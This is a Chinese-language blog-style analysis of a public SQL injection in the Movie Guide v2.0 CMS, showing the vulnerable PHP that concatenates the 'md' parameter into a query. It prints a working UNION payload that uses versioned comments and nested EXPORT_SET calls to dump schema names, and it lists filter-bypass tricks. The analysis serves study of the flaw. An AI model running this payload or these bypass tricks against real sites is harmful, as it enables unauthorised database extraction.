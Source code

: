 ```yaml
---
title: MovieGuide v2.0 SQLi
tags: 
 - 漏洞分析
date: 2018-02-03 13:37:35
---
```


## 0x00
Detail: [Movie Guide v2.0 SQL Injection](https://www.exploit-db.com/exploits/43346/)

<!-- more -->

## 0x01
这是一个比较粗糙的开源cms，总体来说并没有对输入输出做安全处理，从PoC入手，选一个还原一下漏洞形成过程。
#### PoC：index.php?md=[SQL]
定位一下md参数
layout.php为该cms的主要入口处理,下述的变量均没有通过安全处理，直接SQL语句，从而都可以用于数据库注入。
```php
//Get the passed variables.
$mterm = filter_input(INPUT_POST, 'tterm');
$cterm = filter_input(INPUT_POST, 'gterm');
$lterm = filter_input(INPUT_GET, 'gterm');
$yterm = filter_input(INPUT_GET, 'year');
$md = filter_input(INPUT_GET, 'md');
$actorname = filter_input(INPUT_GET, 'actor');
$directorname = filter_input(INPUT_GET, 'director');
```
直接拼接入SQL语句
```
$sql = "SELECT * FROM `Movie_List` WHERE `Main_Dir` LIKE '" . $md . "' ORDER BY `Movie_Title` ASC Limit $start, $perpage";
```
这里比较有意思的是它的PoC，以前没有见过类似的:b，PoC中使用了export_set函数

#### `EXPORT_SET(bits,on,off[,separator[,number_of_bits]])`
`Returns a string such that for every bit set in the value bits, you get an on string and for every bit not set in the value, you get an off string. Bits in bits are examined from right to left (from low-order to high-order bits). Strings are added to the result from left to right, separated by the separator string (the default being the comma character ,). The number of bits examined is given by number_of_bits, which has a default of 64 if not specified. number_of_bits is silently clipped to 64 if larger than 64. It is treated as an unsigned integer, so a value of −1 is effectively the same as 64.`

分解一下PoC
```
/*!02222UNION*/
(
    /*!02222SELECT*/ 0x253238253331253239,0x253238253332253239,
        (
            /*!02222Select*/
                export_set(5,@a:=0,
                (/*!02222select*/ count(*)/*!02222from*/(information_schema.columns)where@a:=// data->@a
                    export_set(5,
                        export_set(5,@a,/*!02222table_name*/,'<li>',2)//dump table_name [0<li>table_name]
                    ,/*!02222column_name*/,'\n:',2)//dump column_name [0<li>table_name\n:columns_name]
                )
            ,@a,2)//set @a split char
        )
    ,0x253238253334253239,0x253238253335253239,0x253238253336253239,0x253238253337253239,0x253238253338253239,0x253238253339253239,0x253238253331253330253239,0x253238253331253331253239,0x253238253331253332253239
    )-- -
```

这里主要利用的是export_set函数的no，off位置来dump数据。

- 首先通过@a:=0，定义变量a为0（可能跟mysql版本有关系，5.7.x下的mysql无法用@:=0来定义）
- 最里面的export_set，将table_name dump出来（结果为`0<li>table_name`）
- 接下来的一个export_set，将columns_name dump出来(结果为`0<li>table_name\n:columns_name`)
- `select count(*) from (information_schema.columns)where@a:=export_set(5,export_set(5,@a,table_name,'<li>',2),column_name,'\n:',2)`将上述的数据赋值给变量a
- 最后用最后一个export_set，用@a做分隔符，将数据dump出来

## 0x02 总结
该cms的注入漏洞很常规，主要是学习分析了该PoC，能在未来注入绕过的地方应用。
1. mysql的自定义变量@的应用，可以在一定程度上消除空格，以及正则`\bwhere\b`的绕过
2. /!02222select*/这个方法也是经常听说，也在这里用到了，一个很好的例子。
3. export_set的应用，比较重要的应用，在某些情况下可用于绕过


